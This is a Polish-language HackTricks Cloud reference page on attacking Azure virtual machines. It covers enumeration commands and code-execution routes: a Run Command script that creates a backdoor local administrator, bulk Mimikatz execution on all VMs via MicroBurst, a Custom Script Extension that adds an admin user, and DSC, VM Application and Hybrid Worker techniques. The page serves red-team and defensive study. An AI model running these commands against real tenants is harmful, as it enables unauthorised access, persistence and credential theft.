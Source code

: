 # Az - Maszyny wirtualne i sieć

{% hint style="success" %}
Dowiedz się i ćwicz Hacking AWS:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Dowiedz się i ćwicz Hacking GCP: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Wesprzyj HackTricks</summary>

* Sprawdź [**plany subskrypcyjne**](https://github.com/sponsors/carlospolop)!
* **Dołącz do** 💬 [**Grupy Discord**](https://discord.gg/hRep4RUj7f) lub [**grupy telegramowej**](https://t.me/peass) lub **śledź** nas na **Twitterze** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Udostępniaj sztuczki hackingu, przesyłając PR-y do** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Podstawowe informacje

[Z dokumentacji:](https://learn.microsoft.com/en-us/azure/virtual-machines/overview) Maszyny wirtualne Azure to jedne z kilku rodzajów [zasobów obliczeniowych na żądanie i skalowalnych](https://learn.microsoft.com/en-us/azure/architecture/guide/technology-choices/compute-decision-tree), które oferuje Azure. Zazwyczaj wybierasz maszynę wirtualną, gdy potrzebujesz większej kontroli nad środowiskiem obliczeniowym niż oferują inne opcje. Ten artykuł zawiera informacje na temat tego, co powinieneś rozważyć przed utworzeniem maszyny wirtualnej, jak ją utworzyć i jak nią zarządzać.

## Informacje o sieci Azure

Sieci Azure zawierają **różne jednostki i sposoby konfiguracji.** Możesz znaleźć krótkie **opisy,** **przykłady** i **polecenia wyliczające** różne jednostki sieci Azure w:

{% content-ref url="az-azure-network.md" %}
[az-azure-network.md](az-azure-network.md)
{% endcontent-ref %}

## Azure Bastion

**Azure Bastion** oferuje bezpieczne, w pełni zarządzane rozwiązanie dostępu RDP (Remote Desktop Protocol) i SSH (Secure Shell) za pośrednictwem SSL przez portal Azure. Jest zintegrowany w ramach wirtualnej sieci Azure, umożliwiając łączność RDP i SSH z maszynami wirtualnymi za pomocą prywatnych adresów IP, eliminując konieczność używania adresów IP publicznych. Jest to bezpieczniejsza i wygodniejsza alternatywa dla tradycyjnych metod polegających na przypisywaniu adresów IP publicznych i konfiguracjach reguł NSG dla dostępu do maszyn wirtualnych. Programiści i personel IT mogą bezpiecznie uzyskiwać dostęp do maszyn wirtualnych z portalu Azure za pomocą przeglądarek internetowych, usprawniając proces dla środowisk deweloperskich i testowych.

Aby wyświetlić wszystkie hosty Azure Bastion w swojej subskrypcji, można użyć następującego polecenia:

{% code overflow="wrap" %}
```bash
az network bastion list --query "[].{name:name, resourceGroup:resourceGrou, location:location}" -o table
```
{% endcode %}

## Wymienianie maszyn wirtualnych
```powershell
# Get readable VMs
Get-AzVM | fl
# Lis running VMs
Get-AzureRmVM -status | where {$_.PowerState -EQ "VM running"} | select ResourceGroupName,Name
Get-AzVM -Name <name> -ResourceGroupName <res_group_name> | fl *
Get-AzVM -Name <name> -ResourceGroupName <res_group_name> | select -ExpandProperty NetworkProfile

# Get iface and IP address
Get-AzNetworkInterface -Name <interface_name>
Get-AzPublicIpAddress -Name <iface_public_ip_id>

#Get installed extensions
Get-AzVMExtension -ResourceGroupName <res_group_name> -VMName <name>

Get-AzVM | select -ExpandProperty NetworkProfile # Get name of network connector of VM
Get-AzNetworkInterface -Name <name> # Get info of network connector (like IP)
```
## **Uruchamianie poleceń w VM**

### **Logowanie AAD w VM**

Istnieje możliwość umożliwienia dostępu dla użytkowników uwierzytelnionych za pośrednictwem AzureAD. Na przykład, próbując uzyskać dostęp do **VM z systemem Linux**: `ssh nazwa_użytkownika@azure-corp.com@1.1.1.1` (ważne jest **użycie adresu e-maila** z azurecorp używanego podczas próby logowania), możesz otrzymać błąd:
```
(username@azure-corp.com@1.1.1.1) This preview capability is not for production use. When you sign in, verify the name of the app on the sign-in screen is "Azure Linux VM Sign-in" and the IP address of the target VM is correct.

To sign in, use a web browser to open the page https://microsoft.com/devicelogin and enter the code DT4PNSTGR to authenticate. Press ENTER when ready.
```
{% endcode %}

Po prostu **postępuj zgodnie z tymi instrukcjami**, przechodząc pod adres [https://microsoft.com/devicelogin](https://microsoft.com/devicelogin) i podając kod, użyj adresu e-mail i hasła jako poświadczeń, a będziesz mógł połączyć się za pomocą SSH (jeśli użytkownik ten ma wystarczające uprawnienia do tego: rola `Logowanie Administratora Wirtualnej Maszyny` lub `Logowanie Użytkownika Wirtualnej Maszyny`).

### **Uruchom polecenie**
```powershell
# The permission allowing this is Microsoft.Compute/virtualMachines/runCommand/action
Invoke-AzVMRunCommand -ScriptPath .\adduser.ps1 -CommandId 'RunPowerShellScript' -VMName 'juastavm' -ResourceGroupName 'Research' –Verbose
## Another way
Invoke-AzureRmVMRunCommand -ScriptPath .\adduser.ps1 -CommandId 'RunPowerShellScript' -VMName 'juastavm' -ResourceGroupName 'Research' –Verbose

# Content of the script
$passwd = ConvertTo-SecureString "Welcome2022!" -AsPlainText -Force
New-LocalUser -Name new_user -Password $passwd
Add-LocalGroupMember -Group Administrators -Member new_user
```

```powershell
# Try to run in every machine
Import-module MicroBurst.psm1
Invoke-AzureRmVMBulkCMD -Script Mimikatz.ps1 -Verbose -output Output.txt
```
### **Uruchom rozszerzenie skryptu niestandardowego**

Rozszerzenia maszyny wirtualnej (VM) w Azure to **małe aplikacje**, które zapewniają konfigurację po wdrożeniu i automatyzację **zadań** na **VM Azure**. Na przykład, jeśli maszyna wirtualna wymaga instalacji oprogramowania, ochrony antywirusowej lub możliwości uruchomienia skryptu wewnątrz niej, można użyć rozszerzenia VM.

Dlatego, jeśli masz dostęp do zapisania go, możesz wykonać dowolny kod:
```powershell
# Microsoft.Compute/virtualMachines/extensions/write
Set-AzVMExtension -ResourceGroupName "Research" -ExtensionName "ExecCmd" -VMName "infradminsrv" -Location "Germany West Central" -Publisher Microsoft.Compute -ExtensionType CustomScriptExtension -TypeHandlerVersion 1.8 -SettingString '{"commandToExecute":"powershell net users new_user Welcome2022. /add /Y; net localgroup administrators new_user /add"}'
```
### StanKonfiguracjiDocelowy (DSC)

StanKonfiguracjiDocelowy (DSC) to narzędzie PowerShell podobne do Ansible, używane do konfigurowania hosta za pomocą kodu. DSC integruje się z Azure, umożliwiając przesyłanie określonych plików konfiguracyjnych. Te pliki muszą przestrzegać ścisłej składni. Warto zauważyć, że rozszerzenie DSC w Azure może wykonywać polecenia z plików spełniających określone kryteria formatowania, nawet jeśli składnia nie jest poprawna zgodnie ze standardami DSC, jak pokazano na dostarczonym rysunku.

Wykonanie tych poleceń ułatwia funkcja [**`Publish-AzVMDscConfiguration`**](https://docs.microsoft.com/en-us/powershell/module/az.compute/publish-azvmdscconfiguration?view=azps-7.5.0) w Az PowerShell. Wymagania obejmują plik **.PS1** z zdefiniowaną funkcją, który musi zostać spakowany do pliku **.zip**. Nawet jeśli składnia może nie być dokładna dla DSC, kod i tak zostanie wykonany. Jednak rozszerzenie oznaczy status wykonania jako "niepowodzenie", a żadne wyniki z polecenia nie będą widoczne ze względu na nadpisanie statusu przez komunikat o błędzie.

### Definicje Aplikacji VM

Definicje Aplikacji VM umożliwiają powtarzalne wdrażanie zaktualizowanych aplikacji na maszynę wirtualną Azure. Ten zasób obsługuje wdrażanie i aktualizację aplikacji na maszynach wirtualnych. Aby to skonfigurować, wymagane jest wykonanie kilku kroków, w tym użycie poleceń takich jak **`New-AzGalleryApplication`** i **`New-AzGalleryApplicationVersion`** w Az PowerShell.

Wykonanie aplikacji lub poleceń za pomocą tej metody obejmuje **"VMAppExtension"**, który jest instalowany automatycznie, gdy aplikacja jest stosowana do maszyny wirtualnej. Rozszerzenie pobiera plik z określonego URI i nadaje mu dokładnie taką samą nazwę jak aplikacja, bez rozszerzenia. Aby poprawnie wykonać plik, pole "ManageActions" w wywołaniu interfejsu API REST musi być skonfigurowane tak, aby zmienić nazwę pliku na odpowiednie rozszerzenie. Po zakończeniu konfiguracji tej metody, struktura będzie przypominać tę przedstawioną na dostarczonym rysunku.

Jednak ta metoda wykonania jest stosunkowo wolna, zajmując około 3-4 minuty na wykonanie aplikacji lub polecenia. Pliki związane z tym procesem są przechowywane w określonych katalogach (`C:\Packages\Plugins\Microsoft.CPlat.Core.VMApplicationManagerWindows\1.0.4\Downloads\` dla kopii aplikacji i `C:\Packages\Plugins\Microsoft.CPlat.Core.VMApplicationManagerWindows\1.0.4\Status\` dla statusu wykonania).

Obie techniki zapewniają unikalne sposoby wykonywania poleceń i wdrażania aplikacji w środowiskach Azure, każda z własnym zestawem wymagań, kroków i rozważań.

### Grupy Hybrydowych Pracowników (HWGs) w Azure

[**Grupy Hybrydowych Pracowników (HWGs)**](https://docs.microsoft.com/en-us/azure/automation/automation-hybrid-runbook-worker) to funkcja w Azure, która pozwala na wykonanie Runbooków skonfigurowanych w Koncie Automatyzacji na maszynie wirtualnej Azure (VM), która jest częścią wyznaczonej HWG. Wykonanie to jest ułatwione dzięki rozszerzeniu zainstalowanemu na VM, które wdraża kod Runbooka na VM. Istotnym aspektem tego procesu jest to, że faktyczne poświadczenia nie mają znaczenia podczas wykonania, ponieważ kod jest uruchamiany z podwyższonymi uprawnieniami, konkretnie jako **SYSTEM** lub root, jak zilustrowano na dostarczonym rysunku.

Ważnym szczegółem dla osób korzystających z maszyn wirtualnych z systemem Windows 10 jest konieczność określenia wersji PowerShell dla Runbooka. Powinna ona być ustawiona na uruchamianie jako wersja PowerShell 5.1 zamiast 7.1. Wymaganie to wynika z faktu, że PowerShell 7.1 nie jest domyślnie zainstalowany na tych maszynach wirtualnych, co prowadzi do niepowodzenia wykonania skryptu, jeśli określono wersję 7.1.

Ta funkcja Azure oferuje solidną metodę automatyzacji i zarządzania zadaniami w środowiskach hybrydowych, umożliwiając scentralizowane zarządzanie i wykonywanie zadań na maszynach wirtualnych Azure.


## Odnośniki

* [https://learn.microsoft.com/en-us/azure/virtual-machines/overview](https://learn.microsoft.com/en-us/azure/virtual-machines/overview)
* [https://hausec.com/2022/05/04/azure-virtual-machine-execution-techniques/](https://hausec.com/2022/05/04/azure-virtual-machine-execution-techniques/)

{% hint style="success" %}
Naucz się i ćwicz Hacking AWS:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Naucz się i ćwicz Hacking GCP: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Wsparcie dla HackTricks</summary>

* Sprawdź [**plany subskrypcyjne**](https://github.com/sponsors/carlospolop)!
* **Dołącz do** 💬 [**grupy Discord**](https://discord.gg/hRep4RUj7f) lub [**grupy telegramowej**](https://t.me/peass) lub **śledź** nas na **Twitterze** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Udostępnij sztuczki hackingu, przesyłając PR-y do** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
